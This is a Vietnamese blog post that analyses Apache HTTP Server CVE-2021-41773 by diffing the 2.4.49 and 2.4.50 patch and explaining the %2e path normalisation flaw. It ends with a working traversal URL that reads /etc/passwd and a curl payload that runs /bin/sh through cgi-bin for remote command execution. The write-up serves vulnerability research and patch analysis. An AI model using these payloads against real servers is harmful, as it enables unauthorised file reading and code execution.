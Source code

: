 Vừa qua thì trên mạng xã hội đang hot về [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773) của Apache HTTP Server, mấy anh em khác đều đã research và upload PoC rồi. Anh trong team có bảo xem qua thử, và mình đọc patch cũng thấy dễ nhìn và mình có thể làm được, nên mình viết lại bài blog này cho vui

Đầu tiên về diff patch. Các bạn có thể lên [Apache](https://httpd.apache.org/security/vulnerabilities_24.html) để đọc thêm về thông tin bug

![](https://github.com/matuhn/matuhn.github.io/raw/master/_posts/41773-1.PNG)

Có thể thấy được là bug đã fix ở phiên bản 2.4.50 (fixed by r1893775 in 2.4.50). Mình sẽ check xem [revision 1893775](https://svn.apache.org/viewvc?view=revision&revision=1893775) đã thay đổi những gì trong source code 

Nhận thấy là bug xuất hiện `httpd/httpd/branches/2.4.x/server/util.c` nên mình đã diff thử util.c của `httpd 2.4.49` và `httpd 2.4.50`

```diff
--- C:\Users\khoa\Downloads\diff\50.c	Fri Oct  1 18:21:11 2021
+++ C:\Users\khoa\Downloads\diff\49.c	Sun Aug 22 04:35:04 2021
@@ -502,8 +502,7 @@
 AP_DECLARE(int) ap_normalize_path(char *path, unsigned int flags)
 {
     int ret = 1;
-    apr_size_t l = 1, w = 1, n;
-    int decode_unreserved = (flags & AP_NORMALIZE_DECODE_UNRESERVED) != 0;
+    apr_size_t l = 1, w = 1;
 
     if (!IS_SLASH(path[0])) {
         /* Besides "OPTIONS *", a request-target should start with '/'
@@ -530,7 +529,7 @@
          *  be decoded to their corresponding unreserved characters by
          *  URI normalizers.
          */
-        if (decode_unreserved
+        if ((flags & AP_NORMALIZE_DECODE_UNRESERVED)
                 && path[l] == '%' && apr_isxdigit(path[l + 1])
                                   && apr_isxdigit(path[l + 2])) {
             const char c = x2c(&path[l + 1]);
@@ -568,17 +567,8 @@
                     continue;
                 }
 
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
                     /* Wind w back to remove the previous segment */
                     if (w > 1) {
                         do {
@@ -595,7 +585,7 @@
                     }
 
                     /* Move l forward to the next segment */
-                    l = n + 1;
+                    l += 2;
                     if (path[l]) {
                         l++;
                     }
```

Có thể nhận thấy trong phiên bản `httpd 2.4.50` team dev của Apache đã decode thêm %2e trong khi normalize path chứ không chỉ check mỗi dấu . như phiên bản `httpd 2.4.49`

```diff
-                /* Remove /xx/../ segments (or /xx/.%2e/ when
-                 * AP_NORMALIZE_DECODE_UNRESERVED is set since we
-                 * decoded only the first dot above).
-                 */
-                n = l + 1;
-                if ((path[n] == '.' || (decode_unreserved
-                                        && path[n] == '%'
-                                        && path[++n] == '2'
-                                        && (path[++n] == 'e'
-                                            || path[n] == 'E')))
-                        && IS_SLASH_OR_NUL(path[n + 1])) {
+                /* Remove /xx/../ segments */
+                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2])) {
```

Từ đây có thể nhận ra là bug sẽ có dạng /xx/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/.../abcxyz. Tiếp theo là tìm cách để trigger Path Traversal ở chỗ này

Mặc định của Apache là không thể nào tác động ra các directory ở ngoài Web Root. Nhưng với `module/mod_alias.so` thì chúng ta có thể tác động tới các directory bên ngoài nhờ vào `ScriptAlias` hoặc `Alias`

```ApacheConf
<IfModule alias_module>
    #
    # Redirect: Allows you to tell clients about documents that used to 
    # exist in your server's namespace, but do not anymore. The client 
    # will make a new request for the document at its new location.
    # Example:
    # Redirect permanent /foo http://www.example.com/bar

    #
    # Alias: Maps web paths into filesystem paths and is used to
    # access content that does not live under the DocumentRoot.
    # Example:
    # Alias /webpath /full/filesystem/path
    #
    # If you include a trailing / on /webpath then the server will
    # require it to be present in the URL.  You will also likely
    # need to provide a <Directory> section to allow access to
    # the filesystem path.

    #
    # ScriptAlias: This controls which directories contain server scripts. 
    # ScriptAliases are essentially the same as Aliases, except that
    # documents in the target directory are treated as applications and
    # run by the server when requested rather than as documents sent to the
    # client.  The same rules about trailing "/" apply to ScriptAlias
    # directives as to Alias.
    #
    ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"

</IfModule>
```

Mặc định là `/cgi-bin/` sẽ map với `/usr/local/apache2/cgi-bin` nên hoàn toàn có thể craft được payload Path Traversal từ đây 

```
http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

Bởi vì mặc định của httpd.conf là CGI module sẽ không được bật, nên thay vì thực thi các path được gọi bởi /cgi-bin/, Apache Server sẽ trả về nội dung các file

Khi [module CGI được bật lên](http://httpd.apache.org/docs/current/howto/cgi.html#page-header) thì ta có thể thực thi các script perl, binary, ... Vậy RCE sẽ xảy ra nếu module CGI được bật lên, cụ thể là

```ApacheConfig
<IfModule !mpm_prefork_module>
	LoadModule cgid_module modules/mod_cgid.so
</IfModule>
```

Kèm theo đó, Apache HTTP Server có 1 [tính năng](http://httpd.apache.org/docs/current/howto/cgi.html#behindscenes) sẽ ghi nhận các giá trị của các parameter và đẩy tất cả vào STDIN dẫn tới việc ta có thể vừa thực thi 1 binary trên server, vừa có thể truyền parameter cho binary đó. Cụ thể là:

```
curl 'http://host/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh' -d 'echo;ls'
```


